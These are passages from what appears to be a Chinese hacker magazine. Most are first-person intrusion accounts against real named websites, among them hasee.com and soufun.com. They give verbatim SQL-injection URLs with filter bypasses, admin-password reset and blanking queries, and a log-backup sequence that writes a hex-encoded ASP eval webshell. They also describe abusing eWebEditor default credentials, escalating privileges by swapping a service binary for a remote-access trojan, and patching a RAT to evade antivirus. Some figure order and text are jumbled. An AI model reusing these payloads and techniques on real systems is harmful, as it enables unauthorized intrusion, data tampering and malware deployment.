突然，一种新的思想突然从脑中冒出，综合分析一下上面的情况，发现提交过滤的特殊字符的时候返回的信息和过滤的字符串是截然不同的，而刚才在搜索框上输入“'”的时候返回的是“请输入你要查找的信息！”那么这样来说，过滤特殊字符的方法应该是把特殊字符过滤为空，而过滤字符串的方法就是直接弹出消息框了，综合整理推理过程，“'”、“+”、“//”被定义为了特殊字符类，是过滤为空了，而“select”、“exists”等则被定义为了危险字符串。根据提交的 cookies 注入语句，可以断定这个 blog 程序的 bloglist.asp 文件的 id 变量是用 Request.QueryString 来接收数据的。呵呵，思路终于又一次清晰了，我的脸上闪过了一丝邪恶的笑容，双眼发出带有杀气的红光。

## 四、冲天香阵透长安，满城尽带黄金甲

看来这个站就要灭亡了，我提交 `bloglist.asp?id=44/*aa*/or/*aa*/ex'ists(sel'ect/*aa*/*/ *aa*/from/*aa*/admin)` 返回错误信息，说明存在表 admin，再提交 `bloglist.asp?id=44/*aa*/or/*aa*/ex'ists(sel'ect/*aa*/password/*aa*/from/*aa*/admin)` 返回正常说明 admin 表不存在 password 列，再来 `bloglist.asp?id=44/*aa*/or/*aa*/ex'ists(sel'ect/*aa*/psw/*aa*/from/*aa*/admin)` 说明 admin 表存在 psw 列，再提交 `bloglist.asp?id=44/*aa*/or/*aa*/(sel'ect/*aa*/left(psw,1)/*aa*/from/*aa*/admin)='j'` 说明管理员密码的第一位是 j，最后猜出了管理员的密码是“jayloveme”，用 admin 帐号登陆，成功，上传 webshell 后，挂上黑页。

# 五、总结

有人会问我是怎么知道管理员的帐号的，其实很多 blog 程序的管理员帐号都是 admin，而站长名称却可以自己设置，所以我很快就知道管理员的帐号是 admin 了。写这种文章的原因很简单，我知道 lcx 大哥是烟台作家协会的会员，所以我我想让他评价下这篇文章的文笔哦，不知道行不行呢？如果版面不够，可以发到 nohack 的论坛吗？

**编辑点评：**作者由于文章中没有提供那个入侵网站的 URL，所以我也无法测试一下这里的注入语句的正确性，不过从整文的叙述角度来看，文章里的注入语句理论是正确的。除了最后一条 `bloglist.asp?id=44/*aa*/or/*aa*/(sel'ect/*aa*/left(psw,1)/*aa*/from/*aa*/admin)='j'`，我稍有点怀疑，因为 blog 程序过滤了 ' 为空和其它的一些字符，那么语句会成为 `(select left(psw,1) from admin)=j`。这个 j 正常情况下应当有 '' 包围，然而在过滤后成为了裸 j 了，在 SQL 正常语法的情况下是错误的，当然也要排除列名 psw 的类型值不是 char 之类的特殊情况。建议文章或实际中改成 `bloglist.asp?id=44/*aa*/or/*aa*/(sel'ect/*aa*/asc(left(psw,1)))/*aa*/from/*aa*/admin)=106`，这样文章比较有说服力，实际入侵的成功可能性也较大。

至于文章的文笔么，作者构思费了一番心思，叙述也较流畅，才气是可以看到的。少年文风总是这样激扬文字，繁华似锦，铺张浪费，总想达到字字珠玑的效果，这是不必要的，文贵在朴实。如果作者长大后，有一天文笔进境到繁华褪尽，尘埃落定的时候，我想你就会自己回头点评自己的文章了，就用不到我了。这是我的观点，当然也和我喜欢像余华、毕淑敏这样的作者的原因有关。

# 神舟电脑，我来过了

elin

+ 从本文你可以学到：
1. 跨库方法
2. update 语句的用法
3. 突破未知加密算法的一种思路
4. Log 备份得 webshell 方法

# 一、前言

说起神舟电脑，应该所有的中国人都知道吧！在国内名气和销售量与联想有得一拼，价格也实在地平易近人啊！尤其是其笔记本的价格优势无人能敌，多次打出惊爆价令众多笔记本厂商措手不及！神舟电脑公司的网站安全怎样呢？带着好奇，便开始了这次的检测。

## 二、初步分析

打开网址 http://www.hasee.com，可以看到公司简介、新闻中心、产品中心、客户服务、人才招聘、网上商城等版块，而且都是 asp 动态网页，如图 1。



既然是动态网页，我们当然是找找有没有什么注入漏洞之类的问题了。打开啊 D 注入工具，然后把各版块都浏览一遍，结果发现好几个版块都存在注入点，如图 2、3、4 所示。


有了注入点我们就来检测一下其相关信息，都是 DB_OWNER 权限，用户都是：b38ax_059j，新闻中心数据库：report，产品中心和网上商城的用同一个数据库：products，其中网上商城的注入点支持多行执行，其它不支持（其实这是软件的误报，后来测试这些注入点都是支持多行执行的，大家不要太轻信某一个软件），如图 5。


# 三、捷报之 1：拿下网上商城

有了注入点，光明就在前方了。我们先看看有支持多行执行注入点的网上商城版块吧。由于啊 D 猜解表速度较慢，所以换用 NBSI 上场，如图 6。


找到了 admin 表，并猜解得相关信息：[id]:1 [admin]:cailanzi


[password]:b3a0d14cfa881044 [rank]:1。在 www.cmd5.com 上在线跑了下密码 b3a0d14cfa881044，结果未得到查询明文，怎么办？暴力破解吗？不用，我们可以用 update 语句把密码改掉，我们在浏览器里执行：http://www.hasee.com/shop/class.asp?nid=7;update admin set password='49ba59abbe56e057' where id=1;--，这样我们就把密码改为了 123456 了（49ba59abbe56e057 是 123456 的 MD5 值）。记得要把原始密码 b3a0d14cfa881044 记好了，以便以后再次使用 update 语句将它还原。


帐号和密码都搞好了，管理后台的地址呢？打开商城页面，居然没有费力找就看到了，就在用户登录处，用 cailanzi 和 123456 登录，成功！如图 7、8。


图 9


图 12


图 10


图 13


图 11

网上商城轻松拿下，逛了逛后台，没有找到可以利用来拿 webshell 的功能。还是把管理员密码用 update 还原吧，就此结束对商城板块的检测。

# 四、捷报之 2：进入网站管理后台

让我们再来看看新闻中心和产品中心吧！产品中心和商城是同一个数据库，就不用再猜表了，但产品中心的管理后台还并未知晓。新闻中心的注入点用 NBSI 检测了一下，结果出错，再次换用啊 D 注入工具来继续任务，并没有管理员相关信息，如图 9。

用管理入口检测功能检测，也没有找到其管理后台的地址。新闻中心的管理员信息存在哪儿呢？后台又在哪儿呢？产品中心管理员和商城是一样的，但后台在哪儿呢？这些让我陷入了困境。经再三思考，决定先找出管理地址再说，工具没找到，就手工找。直接用列目录功能，把网站目录和管理目录一起都找出来吧。列到 D 盘时发现有 www.hasee.com 目录，如图 10。

这个目录肯定就是网站所在地了，其下一级名为 web 的目录（就是 D:\www.hasee.com\web）应该就是网站的 WEB 目录了。而在其下我也看到了 admin 目录，自然就是管理员目录了（图 11），再列 admin 目录从而得知后台登录地址为 http://www.hasee.com/admin/admin.asp。

这时才恍然大悟，管理目录不一定在板块的下一级啊，如果每个板块有一个后台，那管理员管理起来要一个一个去分别登录，还不得累死。这些板块是有一个综合的管理入口的，打开 http://www.hasee.com/admin/admin.asp 果然如我所料，管理的栏目不仅是我们在主页上所见的这几板块，数了一下一共有 13 项管理呢，如图 12。

虽然管理入口找到了，但我们还没有管理员账号和密码。会不会和商城管理员是同一个人？现实很受打击，用刚才的帐号登录并没有成功，看来不是同一个人。郁闷啊，社会工程学在这儿也不起作用啊！那管理员的信息到底在哪儿呢？不会是直接写在文件里的，而未写入数据库吧？应该不会，这样的做法不方便管理员修改密码，也不符合程序设计的规范。不在 report 和 products 这两个数据库中，肯定还存在别的库，肯定有一个里面记录着管理员的信息的。对，我们来“跨库”！

在 NBSI 工具上，依次点击“跨库”、“列数据库”按钮，可以发现原来还有好几个数据库的，其中一个名为 adminrobin 的数据库映入我的眼帘，心里一阵激动，我可找到你了！如图 13。

点击“设当前库”按钮，然后猜解数据，在 admin 表中找到了管理员的帐号和密码，task 表中是管理员的类别对应代号，如图 14、15。

结合这两张表，我们就可以很明白地看到哪个用户是什么级别的管理员。举个例子：Viking 级别代号为 1，是超级用户；mane_pro2005 级别代号是 8，是产品管理员……

用得来的管理员帐号和密码在综合后台登录，却没有成功，郁闷再次笼罩在我的头上。观察一下各个管理员的密码，似乎都特别复杂啊，这些难道不是密码明文？这是用的什么算法进行加密的呢？可能是自己定义的算法吧！得不到密码明文我们岂不是


图 17

没有办法了。心里很是不甘啊，辛辛苦苦忙了这些，好不容易有了些眉目，却又卡住了。

思考了好一阵子，也找了许多加密算法的资料，终究也未能知晓采用的是什么加密算法。就在我快要放弃时，突然灵光一闪，前面我们破解不了密码就 update，这儿我们虽无法 update 一个已知密码，但可以怎么做呢？“置空”！把密码设置为空密码，哈哈，我怎么这么聪明（自我表扬一下，呵呵）。

说做就做，不过动手之前还是做好原始数据的备份，由于数据记录有好几条，字符也比较复杂，所以我们还是用 NBSI 的“自动导出”功能来保存一下。勾选“自动导出”前的框子，然后重新猜解一下记录就 OK 了。

由于注入点不是用的 adminrobin 这个库，所以用 update 时要指定一下，我们先选个普通级别的管理员试试，语句如下：http://www.hasee.com/shop/class.asp?nid=7;use%20adminrobin;update%20admin%20set%20admin_password=''%20where%20admin_id=76;---

这样我们就把 admin_id 为 76，也就是名为 mane_zxb2006 的管理员的密码重新设置为空密码了，然后重新猜解一下，如图 16 所示，成功修改了。

我们来用空密码登录试一下，果然成功了，兴奋中……（图 17）。现在我们基本上就把神舟电脑的网站整个拿下了，改数据、后台挂马之类的事我是不做的。最后还是把原密码还原 http://www.hasee.com/shop/class.asp?nid=7;use%20adminrobin;update%20admin%20set%20admin_password='D)e>%20a(IX['%20where%20admin_id=76;---

# 五、捷报之 3：webshell 的获得

刚才进入后台，并没有找到能用来获取 webshell 的功能，且找到了一处上传，但却没有能够成功利用。Webshell 的获得，我们除了利用后台功能，还是有其它方法的，我们有 DB_OWNER 权限的注入点，又知道 WEB 所在目录，可以通过数据库差异备份或 log 备份的方法将一句话木马写入一文件中，然后用客户端操纵。

然而，这一切我做得并不顺利，由于篇幅问题在此不截过多的图，也不写太多的语句，仅简单地说一说。我先用的是数据库差异备份法（具体方法大家可翻阅以前的杂志，本人有文章也曾详细地介绍过），结果在浏览器中连接却找不到文件。不会是被杀毒软件杀了吧？但我我所知目前一句话木马大多杀毒软件是不杀的，列目录得知神舟网站上装的是瑞星，它是不杀一句话木马的。而列目录时这文件又的确确地存在着，真是意外！试了 N 次，依然如此，很是想不通，真是差点晕过去了。

在我一次次列目录时，一个目录引起了我的注意，d：


sureweb 和 d:\www.hasee.com 在同一级目录，难道我们从开始到现在就一直认错了 web 目录了？“sureweb”不就是“真实的网页”的意思吗？管理员狡猾狡猾的！“d:\sureweb”这才是货真价实的 WEB 目录，而 d:\www.hasee.com 也许是管理员骗人的把戏吧，也或许是历史遗留的老的版本。重新用数据库差异备份写一句话到 d:\sureweb 目录下，这回真的写进去了，但是由于文件过大，用客户端连接时总不成功。由于 log 备份得到的文件会小得多，也更容易成功，所以换用该法，语句如下：

```sql
http://www.hasee.com/shop/class.asp?nid=7;alter database products set RECOVERY FULL--
http://www.hasee.com/shop/class.asp?nid=7;create table el (ww image)--
http://www.hasee.com/shop/class.asp?nid=7;backup log products to disk = 'c:\elin' with init--
http://www.hasee.com/shop/class.asp?nid=7;insert into el (ww) values (0x3C256576616C2872657175657374374282223222929253E20)--
http://www.hasee.com/shop/class.asp?nid=7;backup log products to disk = 'd:\sureweb\shop\xxxxx.asp'--
http://www.hasee.com/shop/class.asp?nid=7;drop table el--
```

稍作说明：第一，0x3C256576616C2872657175657374374282223222929253E20 是一句话木马 <%eval(request("#"))%> 转码而来。

第二，以上语句用在别的地方，请注意要改下数据库名和具体的 WEB 目录即可。这样成功生成了一个含有一句话木马的文件，http://www.hasee.com/shop/xxxxx.asp,用连接器连接，成功得到 webshell,如图 18、19、20。

# 六、写在最后

文章写到最后，我本不想说太多客套的谦虚之词以及毫无用处的感叹，但现实却令人不得不感叹，这么大的公司网站尚且如此，国内网络安全真令人不得不担忧啊！最后，也提醒各位读者朋友，遇到有问题的站点，应保持好自己的心态，千万别搞破坏。

写完本文，我将致信给神舟的管理员，提醒及时修补漏洞，当大家看到此文时，该站的漏洞应该已经补好了，各位不要再尝试，

神舟会加强网站的安全性的，如被查出非法检测，切勿怪我未提醒您。欢迎与我交流，我黑手论坛 ID：elin。

> **编辑点评：**图文并茂、每个入侵步骤和方法及注入语句都给得清清楚楚，相信这样的文章是小菜们所喜欢的吧。

# 安检 XX 信息港

elin

从本文你可以学到：

对此站的检测过程。

+ 1. 旁注在入侵中的利用
2. 暴 web 目录一法
3. 快速查看页面上的所有链接

## 二、初步分析

打开 gogel 发来的网址，不报任何希望地用注入工具来检测一下是否存在注入问题，果然是没有。初略看看各链接，居然都是不带参数的，没有参数提交当然不会有注入了。这里教大家一个快速查看页面上所有链接的方法：装有迅雷的机器可以右击选择“使用迅雷下载全部链接”，然后就会弹出一个 URL 选择对话框，里面就是该页的全部链接，这儿可以发现全都是不带参数的链接（就是不带“? id=....”之类），如图 1、2 所示。

## 一、起因

春节假期在网上闲逛，一个由于《黑客手册》而结识的网友 gogel 在 QQ 上发来求援说 XX 信息港拿不下来，请我帮忙。本就闲着无事做，加上朋友之托，所以就答应顺便看看。他的水平还是可以的，一般明显的漏洞他应该是能找到的，所以我并不报太大的希望。带着好奇与挑战，便开始了这次的检测。下面就说说

直接从该站本身下手估计比较困难，所以我现在的想法是用

“旁注”，就是找出存在于该服务器上的其它网站，找到其中安全比较弱的先入手，然后再跳转或提权。但如果是服务器设置得比较好，就算搞定其它站，也无法达到目标的。不管了，试试再说。

# 三、初战告捷

打开明小子的旁注入侵程序 3.5，先来看看服务器上还有些什么站，如图 3 所示。


然后将左侧列出的所有网站来一次普测，看看哪个站比较容易攻入。在我检测到 www.w***w.com 时跳出了许多的注入点提示，看来就是它了，如图 4 所示。


熟练地猜解数据库表，是 ACCESS 的数据库，得到账号密码如图 5 所示，然后在 www.cmd5.com 上查了一下，得到密码明文。


用管理工具找到后台地址，登录成功。在后台逛了逛，没有发现可马上利用来得到 webshell 的功能，但却发现了 ewebeditor 编辑器的存在，如图 6 所示。

我用的是傲游浏览器，用 viewpage 插件功能分析框架，得到编辑器的地址，如图 7 所示，很幸运，默认管理帐号和密码都没有改，登录成功，如图 8 所示。


后续获得 webshell 的方法大家都应该会的，不会的可以在网上或以前的杂志上找到教程，在此略过，获得了 Webshell，如图 9 所示。


# 四、陷入困境

在试图用这个马在各个盘跳转时发现，服务器确是作了设置的，仅 C 盘可任意跳转，其它盘都无法显示目录。一般网站都不会放在 C 盘下的，经细查我们的目标网站也确实不在 C 盘。顿时，我当初“旁注”的想法似乎进入了僵局。再试试提权吧，C 盘下装有 Serv-U，但版本较新且默认密码也改了，也就无法用 Serv-U 提权程序和那些 asp 或 aspx 的 Serv-U 提权脚本了。


# 五、终达目标

回过头来，再看看目标网站，发现用的是 aspx 写的，一个很早以前的暴绝对路径的漏洞浮现在我的脑海中，先试了几个地址并没有成功暴出，但试到一个二级目录下的一个地址时终于暴出了 WEB 目录是：“D:\cn6s6 系统清理”，如图 10。


这个漏洞其实很早前就被公布了，主要是设置的问题。先试的几个地址与后来的那个不是同一个模块，用的不同设置。网站目录终于找到了（其实在其中我还是一时的疏忽，本应早就得到了，这是在我成功后才想起的，大家汲取我的教训要细心些。C 盘下装有 Serv-U，应该直接查看 ServUDaemon.ini 文件就可以找到所有网站的目录了，因为网站一般都要开 FTP 吧），试着用刚才第一个站的 webshell 跳转至“D:\cn6s6系统清理”，居然进去了，兴奋中……再写个马到目标站，成功！如图 11 所示。

到此，这个站就成功拿下，赶紧把 webshell 丢给 gogel 看了。问及为何要检测这个网站，原来这就是 gogel 家乡的信息港。吩咐了他几句原则问题，最后也写了封邮件给管理员，相信此站不会受到破坏。

> **编辑点评**：明小子旁注，加 aspx 的“暴露路径漏洞，主机权限设置不严，导致 webshell 轻易跳转。这篇文章让我想起 Darkne2s[BST]在 2004 年发布的一款暴 aspx 物理漏洞的工具，不知现在是否能用，大家搜索一下吧。

## 入侵中国十大门户站 —— 搜房网

雕牌

+ 从本文你可以学到：
1. 信息收集的简单技巧
2. 利用 ewebeditor 在线编辑器
3. 入侵的基本常规手法

# 一、入侵前奏

俺也不记得为什么入侵“搜房”这个站了，当时是搞的 tj.soufun.com，慢慢就搞上主机了。按照惯例是拿家伙，一顿乱注，再猜表，找后台，笔者认为对那些小站，这样的方法可行。但是对于像这样世界排名 300 以内的大站，用这个思路，不免显得比较吃力。因为这些大站的数据库一般都比较大，猜表时容易卡死。虽然很多大站的程序后台是自己写的，但是一般也会存在字符串过滤不严的问题。虽然不容易猜到字段，但是即使找到密码，进了后台，传了 .jpg 后缀 asp 马，路径也不一定会知道吧。另外，中途有可能还会遇到一系列的问题，譬如：md5 散列太强、后台找不到、无上传漏洞等等，所以我个人认为拿大站时，注入不是上策。
上面的一些是自己的个人经验，下面开始实战！

# 二、初探虚实

tj.shoufang.com 这是分站，和主站在一个服务器上（ping 一下就知道）。大致浏览一下网站内容，感觉图片发布较多，网站运行环境初步猜测为：asp+mssql+Windows2000。有 50% 的可能用到了在线编辑器：Fckeditor、Ewebeditor 的系统（第六感，呵）。搜集信息是个漫长的过程，搜集的信息越多，对入侵帮助就越大。

# 三、入侵开始

先从简单的入手，既然第六感告诉我有 Ewebeditor，那我就找 Ewebeditor 的目录，这里我给出三种找目录的方法：

- 1. 用搜索引擎，比如在百度中使用“site:xxx.xxx.com inurl:特征 asp 文件”作关键字进行搜索。
- 2. 直接在网站 url 后加 ewebeditor，只要显示“您无权查看该网页”就有戏！
- 3. 在网站上查找图片的 url，看是否在 Ewebeditor 目录下。

由于篇幅较长，就不一一介绍了，我直接用第 3 种，因为在搜集信息时通过查看图片路径找到的，如图 1。

知道了 Ewebeditor 的目录，接下来看看登陆默认地址：/admin_login.asp。默认帐号和密码都是 admin！哈哈，RP 不错，登陆成功。管理员是否以为这个目录够深，以至于我们找不到？

登陆后，拿 shell 就简单了，照愿菜鸟简单写写。选择“式样管理”，随便选个式样，再点击“拷贝”按钮，我选的是 standard 样式，自动在最下面拷贝成功，名字为 standard1，接着在后面选项连接中选择单击“设置”，如图 2。

然后在“图片类型”的上传类型中输入我们要上传的文件类型：aaspsp（过滤掉中间的 asp 就剩下 asp 了）或者 cer、asa，如图 3。

接着提交后还可以对样式进行预览，来到如图 4。点我在图 4 中标记的地方进行上传 asp 马，直接传 asp 格式，成功后点“代码”或者“预览”都可以拿到路径，如图 5。


这一次切顺利！记得上次拿 gd 分站

# 四、提权经过

小马传大马就不用了，传个13的马（提权超cool），初步看了下，asp马的权限不是很大，Web主目录不可写，目录权限设置比较严格，安装了一个诺顿杀毒软件（信息来源 C:\Docume~1\All Users\Application Data\Symantec），服务器有4个 CPU，IIS 为 5.0，操作系统为 Windows 2000 系统，wscript.shell 组件不可用，有 Serv-U，3389 端口关闭。

NT 比 Win2003 提权思路多，先从 Serv-U 下手，用 Webshell 自带的提权脚本。这里主要测试是否能用 Serv-U 执行命令，如果可以就直接 tftp 传个鸽子，再执行！

经测试，无本地提权漏洞（查看用户没加上去），但是就在查看用户的一瞬间发现了重要信息！如图 6。

看到没有？aspnet 用户！哈哈，支持 asp.net。大家都知道 aspx 的权限默认比 asp 大（默认为 user 权限），刚准备看看 aspx 马的时候，兄弟 hackest 发来消息试试替换服务，双管齐下。

服务开放，如图 7，bbnt；Symantec AntiVirus；\NETBAC~1\bin\；Symantec AntiVirus；cwRsyncServer\bin；\Serv-U 目录都调不进来，只有 ipMonitor 目录可以利用，如图 8。

这个软件全称 IPMonitor，用于实时检测 Internet 服务器、

NT 服务器，一旦出现问题，该软件能够自动传呼、发送 E-Mail、网络广播、或触发 NT 事件。先用 aspx 传个诺顿免杀鸽子上去，然后把要替换的 em60.exe 改名字为 em6000.exe，直接删除是不行的（正在运行的文件不可以删除），再把鸽子改为 meo1.exe，一切完成，接下来只等重启机器了。

n 天后，运行鸽子，好激动……“搜房老鸡”终于上线，如图 9！

# 五、总结

先恢复服务，擦下 pp，删除鸽子，通知管理员，闪人……。看似牢固的门户大站，因 Ewebeditor 而败落，以上几种提权思路是比较实用和简单的方法。这个站在世界排名 300 以内，如果在主页上挂马，那后果不堪设想。行文仓促，如有细节问题可以到 NOHACK 的 bbs 上 (http://www.nohack.cn/bbs) 或 www.slenk.net 上联系我。

> 编辑点评：运气真是好啊！又是利用 ewebedit 在线编辑器，而且管理员 RP 特好，送帐号外带密码……当然！我们的作者更厚道！！！免费为他们做了一次安检。本文中使用的入侵手法都是一般常规技术，利用已知漏洞，“上马放鸽”，肉鸡就被捕获了！希望中国各大网站的管理员不要心存侥幸，以为目录深一点就可以更安全了！记住一句话：有网络就有漏洞！多阅读《黑客手册》，看看有没有相同的情况又被“曝光”哦！

# 鸽子免杀三重奏

> **免杀班栏首语**
免杀并不是一成不变的，只要我们多想多做实验，一定会发现新的免杀技术的。
——第九街的咖啡

+   **从本文您可以学到：**
1、学会使用免杀最常用的3种方式

随着杀毒技术的升级，木马也越来越难免杀，辛辛苦苦做出来的免杀服务端，用不了几天又被杀了，真是让头痛啊！现在，越来越多的壳都被杀毒软件加入到查杀的黑名单中，但是通过研究发现，有些壳会被杀，不过只要通过一些小手段还是会躲过去的，可见杀毒软件对壳的查杀力度还是不够哦，这也给免杀技术带来了一定的空间。今天我给大家带来以下三种方法，都是可以躲过杀毒软件哦！同是也给大家带来一种全新的免杀技术。

首先要准备以下东西：鸽子服务端一只（加 UPX 壳，这里用自带的也行，或者是用 UPX 加壳工具加也行）及调试工具 OD。

# 免杀第一重：等价替换法

用 OD 打开配置好的鸽子服务端，找到如图 1 所示的地方。不同配置的鸽子，跳转的地方也不一样，不过都有这样一个带有 4 个 NOP 的位置。

双击“004C0370 /EB 10 jmp short 服务端程.004C0382”这一句话，会出现如图 2 所示。

将 JMP 改成 JB，点“汇编”会继续出现如图 2 所示的对话框，将 JB 为 JNB，再点汇编，然后点取消，改完后如图 3。

选择改过的代码部分单击右键，“复制到可执行文件”/“选择部分”，会跳出如图 4 所示的对话框。

然后点右键保存文件，这样一个免杀的鸽子服务端就做好了。

# 免杀第二重：移位法

同样用 OD 打开配置好的鸽子服务端到如图 1 所示的位置，选中“004C0370 /EB 10 jmp short 服务端程.004C0382”这句，双击将对话框里的“jmp short 004C0382”复制下来，然后右键“二进制”/“使用 NOP 填充”将其 NOP 掉，之后双击右边的 NOP 值将其改为“jmp short 004C0382”，最后保存即可。如图 5 所示。

在“004C0370 /EB 10 jmp short 服务端程.004C0382”的位置，也就是把“004C0370 /EB 10 jmp short 服务端程.004C0382”替换成“mov ebx, dword ptr ds:[esi]”，同时把下边的那个“NOP”改为“jmp 004C0384”，这样一个免杀的鸽子服务端就又出炉了。如图 6 所示。

# 免杀第三重：变换修改法

仍然用 OD 打开配置好的鸽子服务端，将“004C0382 8B1E mov ebx, dword ptr ds:[esi]”和“004C0384 83EE FC sub esi, -4”复制下来，接着将“004C0382 8B1E mov ebx, dword ptr ds:[esi]”这句上移到

## 写在最后

这里说一下，可能大家不太明白。由于程序是逐句向下走的，我们可以把它们的顺序给相互换一下，然后再变通一下，不影响正常程序运行的情况下来达到免杀的目的。

免杀并不是一成不变的，只要我们多想多做实验，一定会发现新的免杀技术的。

(作者提到的鸽子免杀三重奏的相关程序及免杀录像已经收录在光盘中)

编辑点评：作者提到的三种方法也就是现在免杀界用的最多的方式，简单易用，最重要的是有效。

# 反黑精英威金病毒

New4 [D.S.T]

无毒有偶栏目首语病毒是人经过思考编写出来的程序，既然是人脑完成的任务，那么我们就可以用各种手段、工具来分析编写者的思想，并着手清除之。因此，各位无需谈毒色变。

+   从本文您可以学到：
1、利用杀毒软件识别病毒的加壳程序及病毒种类

2007 年 3 月 8 日三八妇女节，威金突然降临到我的电脑上！病毒名：Worm.Win32.Viking.is 应该是变种的蠕虫威金。哎！好好一个节日都不让我过，又开始进入与毒斗争的紧张状态！为我的电脑资料而战，为我的硬盘空间而战！

# 威金小档案：

进程名：Logo1_.exe 或者 Logo1_

简介：Logo1_.exe 是 Worm.Win32.Viking 木马相关程序，病毒中文名叫维金。建议立即删除。

相关文件是 rundll32.exe，会感染 exe 文件，杀掉后即使重装系统点击感染文件也会重生，经常藏在 c 盘 windows 目录下。

被感染的 exe 文件特征：被更改图标，病毒文件本身也会改为被感染文件图标。

威金是感染型蠕虫病毒，中了它以后电脑必将变成“毒”窝，大大小小病毒也随它而来！

这次我主要介绍的不是手动杀毒而是重在病毒分析，因为手动查杀工作量很大。杀毒主力军——瑞星杀毒 2007，如果要手工清除这些恶意病毒是非常麻烦的。不说了，开始我的查杀历程吧，中毒症状如图 1、图 2 所示。

| 项目 | 状态 |
| --- | --- |
| 系统进程 | 否 |
| 后台程序 | 否 |
| 使用网络 | 否 |
| 硬件相关 | 否 |
| 常见错误 | 未知 N/A |
| 内存使用 | 未知 N/A |
| 安全等级 (0-5) | 2 |
| 间谍软件 | 否 |
| 广告软件 | 否 |
| 病毒 | 是 |
| 木马 | 是 |

图 1、图 2 中所示的 logo1_.exe、rundll32.exe，前者是病毒主体，后者是病毒伪进程，用于感染文件，与系统进程相似，所以称为伪进程，如图 3 所示。

恐怖吧，运行后又激活病毒且恢复文件正常图标，这就是它的不死秘诀。发现 C 盘的 exe 文件没有被感染，而 D 盘以后的盘则被感染了，移动设备也没有感染，比起熊猫烧香要好得多了，如图 4 所示。图 4 中 ctflsv.exe 采用了 Rootkit 隐藏进程技术，识别很简单，冰刃显示红色进程就是了。病毒主体文件 logo1_.exe 采用免疫 007 加壳属于加密型壳种，systemm.exe 伪进程采用 upack0.32 属于压缩壳种，如图 5、图 6 所示。USBue.sys 采用 Rootkit 隐藏技术，属于木马后门类，如图 7 所示。

由于我是在杀毒的时候写的，所以可能写的不好请大家不要见怪！欢迎大家来到黑客手册 http://bbs.nohack.cn 或者暗组论坛 http://forum.darkst.com/ 与我交流！

编辑点评：本文的对象是已经出现很久的 Viking，没有什么新鲜感，但利用杀毒软件来识别病毒、木马及恶意程序所用的加壳软件，这一招的确实用，方便了菜菜们在做免杀时脱壳，值得一提。

# Linews

iamfriday 窗外首语：
春天里那个百花香……，我得意的笑……，小编终于在最后一学期的忙碌之中把工作签了，不久的将来，我也就由祖国的花朵成功转行为一名社会主义伟大事业的建设者了。扯远了，来看看本期为大家献上的内容吧。Shell 编程是 Linux 中很重要的一部分，这期我们就借着这篇文章，来学习一下 Shell 编程的方法以及记录用户操作的思路；而 Ophcrack 是篇纯粹的应用类文章，方便大家在没有 Windows 系统环境、没有 LC5 的时候破解 Windows 密码，顺便给大家展示一下不一样的 LiveCD。OK，我们一起来看看吧。

# 1、戴尔使用 Linux，成为用户焦点

Dell 公司于今年 2 月发布了新的用户交流意见网站，供用户留言、投票，以对 Dell 的产品和服务提供见解和看法。从留言的频繁程度来看，最受关注的一条是：建议戴尔公司在其电脑产品中预装开放源代码的 Linux 操作系统及相关资源，确保电脑产品的售价降低。排名第二的留言是建议戴尔使用开源的 OpenOffice 代替 MS Office。

首席执行官迈克·戴尔表示“尽全力、按照消费者意愿推出市场接受的产品和服务。”

> > 青蛙点评：这肯定是没得说，用 Linux 肯定比 XP 便宜更多了！而且，就算是正版 XP 用户，第二次做系统的时候用的还是不是正版也很难说了！本来戴尔的机子就便宜，这样下去其他品牌肯定会不好过的……

# 2、IDC 预测：2010 年 Linux 价值 400 亿美元

虽然统计 Linux 系统的市场价值非常困难，但市场分析公司 IDC 还是对 Linux 产业作出了评估和预测。在纽约召开的 Linuxworld 开源解决方案大会 (Linuxworld Open Solutions Summit) 上，IDC 公司的分析师展示了公司对 Linux 系统现状和截至 2010 年发展情况的调研和分析。IDC 公司系统软件市场调查副总裁 Al Gillen 表示 2006 年 Linux 系统的市场价值达到 180 亿美元，而到 2010 年，则可以达到 400 亿美元。而 2006 年至 2010 年，中国的 Linux 市场将以 34% 的增长率增长。对于 Linux 系统中不同的种类，根据 IDC 的数据显示，付费的 Linux 操作系统 (如红帽企业版、Red Hat Enterprise Linux 和 SUSE Linux Enterprise Server) 和免费的 Linux 系统 (如 Debian 和 Fedora) 各占 Linux 系统的半壁江山。

